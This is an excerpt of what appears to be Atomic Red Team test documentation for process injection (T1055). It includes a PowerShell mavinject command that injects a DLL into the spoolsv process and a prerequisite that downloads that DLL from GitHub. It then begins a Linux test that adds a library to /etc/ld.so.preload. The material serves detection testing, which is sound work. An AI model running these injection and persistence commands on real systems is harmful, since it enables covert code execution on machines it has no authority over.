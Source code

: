 **Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to Inject | Path | PathToAtomicsFolder&#92;T1055&#92;src&#92;x64&#92;T1055.dll|
| process_id | PID of input_arguments | Integer | (get-process spoolsv).id|

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
$mypid = #{process_id}
mavinject $mypid /INJECTRUNNING #{dll_payload}
```

#### Dependencies:  Run with `powershell`!

##### Description: Utility to inject must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055.dll" -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #2 - Shared Library Injection via /etc/ld.so.preload

This test adds a shared library to the `ld.so.preload` list to execute and intercept API calls. This technique was used
by threat actor Rocke during the exploitation of Linux web servers. This requires the `glibc` package.

Upon successful execution, bash will echo `../bin/T1055.so` to /etc/ld.so.preload.

**Supported Platforms:** Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path_to_shared_library | Path to a shared library object | Path | ../bin/T1055.so|
